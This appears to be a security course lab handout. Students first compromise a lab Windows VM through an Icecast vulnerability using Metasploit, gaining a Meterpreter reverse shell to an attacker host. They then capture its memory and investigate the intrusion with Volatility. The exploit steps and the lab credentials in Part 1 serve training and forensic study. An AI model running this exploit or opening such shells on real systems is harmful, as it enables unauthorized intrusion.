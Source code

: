 ```yaml
---
title: "Incident response with Volatility memory analysis"
description:
include_toc: true
---
```


# Scenario

Consider the following scenario: one of your company's production servers has made an outbound connection to an IP address, which is abnormal behavior. Your task is to investigate what is going on.

# Part 1: Exploit Windows via Icecast Vulnerability

First, you'll play the role of the attacker. Compromise the Windows VM using the Icecast vulnerability in Metasploit.

## Start Icecast as admin

1.  Launch the Windows virtual machine. Log in to it as user `Labuser`,
    password `Passw0rd!`.

    If you are asked to provide a reason for an unexpected shutdown, you can
    ignore (cancel) this dialog. It is a Windows Server logging feature.

1.	On Windows desktop, right-click the "Icecast2 Win32" icon.
    <span class='badge badge-danger'>Important!</span> Select “Run as administrator.”
    If any warning message pops up, click “yes”.

    Running as Administrator will change the permissions that are obtained when
    the program is exploited.
    
2.	In the Icecast window that appears, click the button “Start server.”

    **Note**: The Icecast server is configured by default to a max of 5 connections.
    Each time you exploit the Icecast server, the connection count will tick up
    by one. If you use up all connections, simply kill and restart the Icecast server.

## Start msfconsole

In Kali, from a terminal, enter:

    msfconsole

## Finding and using an Icecast exploit

4.  From the `msf >` prompt, try:

        search icecast

5.  In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> You can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it should show you all possible options for directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	Set the remote host to the Windows VM IP address:

        set rhost 192.168.56.100

10.	Meterpreter should already be selected as the payload. To verify, type:

        show options

13.	Set the "local host" variable to Kali's IP address on the infosec-net adapter.
    To set the local host variable, type

        set lhost 192.168.56.101

    A `lhost` was likely set for you by default -- but it may be an address for
    an incorrect interface! Make sure this setting is correct.

    <div class='alert alert-info'><strong>Note:</strong> Remember that you can
    easily check your IP in Unix/Linux by typing <code>ifconfig</code> or
    <code>ip</code> from within Metasploit.</div>

    {: #set-lhost-iface-name }
    **Note!** msfconsole allows you to specify an interface name as the `lhost`.
    The interface name for infosec-net is `virbr1`. You could set this as follows:

        set lhost virbr1

    Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to <span class='badge badge-danger'>
    <i class='fa fa-rocket'></i> launch the exploit!</span> Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the `meterpreter >` prompt.

16. Get the process ID by typing `getpid`.

# Part 2: Create a memory dump from the Windows VM

In this section, you'll use a digital forensics tool, FTK Imager, to make a copy or "image" of the Windows VM RAM.

1. On the Windows VM, create a new folder called "Evidence."

2. Right-click the folder and select "Properties." Select the "Sharing" tab, and click "Share." On the next pop-up Window, click "Share." Click "Done" and "Close."

2. From inside the Windows VM, open a web browser and [download the FTK Imager zip file](http://0.0.0.0:4000/beta/assets/files/FTK_Imager.zip). 

3. In Windows, extract the zip file, and run `FTK Imager.exe` from the extracted directory.

4. In FTK Imager, from the "File" menu, select "Capture memory." For the destination path, select the "Evidence" folder you created. Click "Capture Memory."

5. In Kali, browse to the shared "Evidence" folder by opening the "Home" folder on the desktop. In the URL bar of the file explorer window, type: 

        smb://192.168.56.100/Evidence 
        
    or 
        
        smb://VAGRANTVM/Evidence

	Drag the "memdump.mem" file created by FTK Imager to the Desktop.

# Part 3: Use Volatility to examine the memory dump

## Install Volatility

1. Open a terminal and run the command:

        git clone https://github.com/volatilityfoundation/volatility3.git

2. Change to the `volatility3` directory.

3. Run the command:

        pip3 install -r requirements.txt

## Examine the memory dump with Volatility

1. From the `volatility3` directory, run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.info

	This should display information about the memory dump file.

2. Next, in the scenario described at the top of this document, you have been alerted that this server has made an unusual outbound connection. Let's investigate. Run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.netscan

	This outputs the status of network connections for the Windows VM at the time that the memory dump was created. This represents a snapshot of network activity at this point in time.

3. Look for a line that shows an `ESTABLISHED` connection. What is the remote IP address for this connection? What is the remote port address? What is the name of the executable associated with this connection? What is the process ID (PID) for this executable?

	Note that port `4444` is the default outbound port for Meterpreter.

4. Get a list of running processes with the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.pslist

	Can you locate the executable name and process ID?

5. Now we will use Volatility to scan the process ID for Icecast to look for hidden more malicious process running as part of the Icecast proces:

        python3 vol.py -f ~/Desktop/memdump.mem windows.malfind --pid [the process ID you identfied] --dump

	Volatility will output portions of memory associated with the Icecast PID that it believes is running malicious code.

	The `--dump` option will cause Volatility to write suspected malicious portions of memory to `.dmp` memory dump files.

6. Verify whether the `.dmp` files contain malware by opening virustotal.com in a browser in Kali and uploading each `.dmp` file for analysis. Select `Choose file` and then `Confirm upload`. 

	Virus Total will run the `.dmp` file through several dozen malware scanners. Do any of the scanners report that something is amiss? What do the `.dmp` files contain?
